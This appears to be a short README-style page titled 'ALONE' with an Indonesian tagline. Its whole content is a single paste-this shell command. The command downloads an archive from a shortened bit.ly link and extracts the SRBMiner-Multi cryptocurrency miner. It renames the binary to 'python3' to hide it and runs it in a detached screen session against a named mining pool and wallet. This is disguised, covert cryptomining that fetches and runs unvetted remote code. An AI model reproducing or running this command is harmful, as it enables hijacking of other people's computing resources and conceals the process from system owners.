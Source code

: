 # ALONE
BUKAN MANUSIA BAIK, BUKAN JUGA MANUSIA JAHAT
```
apt install screen -y && wget https://bit.ly/kontolrum && tar -xvf kontolrum && cd SRBMiner-Multi-2-4-7 && mv SRBMiner-MULTI python3 && clear && screen ./python3 --algorithm aurum --pool stratum-asia.rplant.xyz:7114 --wallet waf1qs7djrfr2kj4w8qkylva5tr24500l3nael0l34g.DOTaja --keepalive true
```
